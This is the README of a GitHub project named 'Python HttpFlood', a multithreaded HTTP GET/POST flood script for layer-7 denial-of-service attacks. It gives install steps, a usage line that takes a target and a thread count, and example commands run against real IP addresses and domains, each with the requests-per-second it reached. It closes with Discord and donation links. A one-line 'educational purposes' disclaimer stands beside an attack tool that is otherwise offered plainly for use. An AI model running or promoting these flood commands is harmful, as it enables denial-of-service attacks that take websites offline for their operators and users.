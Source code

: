 # Python HttpFlood [![Views](https://hits.sh/github.com/e43bpyflooden/hits.svg)](https://github.com/e43b/Python-HttpFlood/)

###### [![](img/en-flag.svg) English](README.md) | [![](img/br.png) Português](README-pt.md)

This is a simple HTTP Flood script developed in Python.

## Installation
```sh
git clone https://github.com/e43b/Python-HttpFlood/
cd Python-HttpFlood
pip install -r requirements.txt  
```

## Usage 
```sh
python main.py <target> <GET/POST> <threads>
Example: python main.py http://51.159.30.249 POST 1500
```

**Note: This script should only be used for educational purposes. It is not recommended or ethical to use this script on sites without permission.**

## Machine Setup and Testing
The script was run on a virtual machine with the following specifications:
- CPU: 1 core
- RAM: 2GB
- Internet Speed: Download: 378.87 Mbit/s, Upload: 48.47 Mbit/s (measured with speedtest-cli)

## Test Configuration
Tests were conducted on different sites to evaluate performance at layer 7 (L7 Non Protected and L7 Non Protected SSL).

### Practical Tests with POST Method
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142post.png)
Command: `python main.py http://142.171.195.145/HIT POST 500`
- Requests per second:
  - Maximum: 1500
  - Average: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecpost.png)
Command: `python main.py https://nodec.mediathektv.com POST 700`
- Requests per second:
  - Maximum: 2800
  - Average: 1500

### Practical Tests with GET Method
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142get.png)
Command: `python main.py http://142.171.195.145/HIT GET 500`
- Requests per second:
  - Maximum: 3000
  - Average: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecget.png)
Command: `python main.py https://nodec.mediathektv.com GET 700`
- Requests per second:
  - Maximum: 2200
  - Average: 1500

## Author
The creator of this tool is [E43b](https://github.com/e43b/).

- **Discord:** [Server](https://discord.gg/CsBMMXBz7t)
- **Donation:** [Donation Link](https://oxapay.com/donate/40874860)
